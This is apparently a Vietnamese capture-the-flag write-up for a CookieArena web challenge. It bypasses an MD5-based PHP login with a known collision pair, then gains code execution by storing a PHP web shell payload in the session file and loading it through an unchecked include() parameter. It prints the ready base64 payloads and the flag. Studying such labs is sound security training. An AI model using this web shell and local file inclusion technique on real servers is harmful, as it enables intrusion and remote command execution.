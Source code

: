 Đề bài:

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/5e57936f-4715-4ed4-84d6-1fe1267524c3)

Kiểm tra source thấy 1 đoạn

```php
if(isset($_POST["submit"])){
    $username = base64_decode($_POST['username']);
    $password = base64_decode($_POST['password']);

    if(($username == $password)){
        echo 'Username and password are not the same';
    }
    else if((md5($username)===md5($password))){
        $_SESSION['username'] = $username;
        header('Location: admin.php?file=1.txt');
    } else {
        echo 'Username and password are wrong';
    }
}
```

Vậy việc cần làm là tìm 2 chuỗi username và password có cùng md5 hash so sánh chắc chắn sau khi đã được decode base64

Hmm khó đây, sau khi research thì thấy có 1 lỗ hổng gọi là **md5 collision**

Tìm được 2 chuỗi hex sau khi md5 cho kết quả bằng nhau tại [mscs.dal.ca](https://www.mscs.dal.ca/~selinger/md5collision/)

```python
import hashlib
username = 'd131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70'
password = 'd131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70'

assert hashlib.md5(bytes.fromhex(username)).hexdigest() == hashlib.md5(bytes.fromhex(password)).hexdigest()
# đều bằng 79054025255fb1a26e4bc422aef54eb4
```

Sau khi login thành công qua vòng 1, đến file admin.php

```php
if($_SESSION['username'] != null){
        if(isset($_GET['file'])){
            $file = $_GET['file'];
            include($file);
        }
    }
```

Vì input username được gán vào biến `$_SESSION['username']` và mọi dữ liệu của SESSION được lưu trong file `/tmp/sess_PHPSESSID`

nên có thế thêm payload để thực thi code như sau:

```python
import hashlib
import base64
username = 'd131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70'
password = 'd131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70'

payload = b'<?php system($_GET[\'cmd\'])?>'
assert hashlib.md5(bytes.fromhex(username)+payload).hexdigest() == hashlib.md5(bytes.fromhex(password)+payload).hexdigest()
# md5(username) == md5(password)

print(hashlib.md5(bytes.fromhex(username)).hexdigest())
username_encodebase64 = base64.b64encode(bytes.fromhex(username)+payload)
password_encodebase64 = base64.b64encode(bytes.fromhex(password)+payload)

assert username_encodebase64 != password_encodebase64
# username != password
print(username_encodebase64)
print(password_encodebase64)

#username = 0THdAsXm7sRpPZoGmK/5XC/KtYcSRn6rQARYPrj7f4lVrTQGCfSzAoPkiIMlcUFaCFEl6PfNyZ/ZHb3ygDc8W9iCPjFWNI9brm2s1DbJGcbdU+K0h9oD/QI5YwbSSM2g6Z8zQg9XfujOVLZwgKgNHsaYIby2qIOTlvllK2/3KnA8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8+

#password = 0THdAsXm7sRpPZoGmK/5XC/KtQcSRn6rQARYPrj7f4lVrTQGCfSzAoPkiIMl8UFaCFEl6PfNyZ/ZHb1ygDc8W9iCPjFWNI9brm2s1DbJGcbdU+I0h9oD/QI5YwbSSM2g6Z8zQg9XfujOVLZwgCgNHsaYIby2qIOTlvllq2/3KnA8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8+
```

Sau khi login, vào trang admin.

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/7091180e-6288-4240-b0e3-223b6a6a19e3)

```CHH{7yPE_jU66lin9_hArdEr_97940fe057da6568c40d99ae587adee7}```

